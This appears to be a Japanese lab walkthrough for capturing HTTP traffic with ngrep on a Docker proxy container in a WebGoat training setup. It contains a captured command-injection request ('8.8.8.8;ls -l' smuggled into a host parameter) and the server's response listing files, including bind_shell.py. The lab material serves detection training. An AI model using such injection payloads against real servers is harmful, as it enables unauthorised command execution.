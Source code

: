 ### proxyサーバでHTTP通信をキャプチャ
WEBサーバのログで事象を確認する。

1. proxyサーバにログイン
```
vagrant@webgoat:~/apps$ sudo docker-compose exec proxy bash
```
2. ngrepを使用してHTTP通信をキャプチャ
```
root@c56fe08a3ea2:/# ngrep -W byline 'HTTP' -q > ngrep.log
```
3. proxyサーバをログアウト
4. ゲストOSでproxyサーバのcontainer IDを調べる
```
vagrant@webgoat:~/apps$ sudo docker ps
CONTAINER ID        IMAGE                 COMMAND                  CREATED             STATUS              PORTS                    NAMES
937fb140f393        myproxy               "nginx -g 'daemon of…"   6 minutes ago       Up 6 minutes        0.0.0.0:80->80/tcp       apps_proxy_1
64742ebbea0f        myarachni             "bin/arachni_web --h…"   6 minutes ago       Up 6 minutes        0.0.0.0:9292->9292/tcp   apps_arachni_1
425df1dc54ac        webgoat/webgoat-7.1   "java -Djava.securit…"   6 minutes ago       Up 6 minutes        0.0.0.0:8080->8080/tcp   apps_webgoat_1
```
5. 取得したngrepのログをゲストOSにコピー  <br>
```
vagrant@webgoat:~/apps$ sudo docker cp 937fb140f393:/ngrep.log .  
```

+ 不審なリクエスト**ls　-l**

``
T 192.168.1.100:42012 -> 192.168.1.10:8080 [AP]  <br>
GET /getPage?host=8.8.8.8%3Bls+-l HTTP/1.1  <br>
``

+ Target OSに設置されたWEBサーバが上記リクエストのレスポンスに**ls -l**のコマンド結果が含まれている。

``
T 192.168.1.10:8080 -> 192.168.1.100:42012 [A]  <br>
HTTP/1.1 200 OK.  <br>
``

``
PING 8.8.8.8 (8.8.8.8): 56 data bytes
64 bytes from 8.8.8.8: icmp_seq=0 ttl=61 time=33.850 ms
64 bytes from 8.8.8.8: icmp_seq=1 ttl=61 time=37.703 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=61 time=32.720 ms
--- 8.8.8.8 ping statistics ---
3 packets transmitted, 3 packets received, 0% packet loss
round-trip min/avg/max/stddev = 32.720/34.758/37.703/2.133 ms
total 120
-rw-r--r--   1 node  node    194 Jan 20  2018 bind.py
-rwxrwxrwx   1 cyexc cyexc  2067 Jan 20 15:07 bind_shell.py
-rw-r--r--   1 cyexc cyexc  2025 Jan 14 19:25 bind_shell.py.1
-rw-r--r--   1 cyexc cyexc   525 Sep 30 11:11 index.ejs
-rw-r--r--   1 cyexc cyexc   414 Sep 30 11:11 index.html
drwxr-xr-x 263 root  root  12288 Jan 20 13:23 node_modules
-rw-r--r--   1 root  root  78310 Jan 20 13:23 package-lock.json
-rw-r--r--   1
``
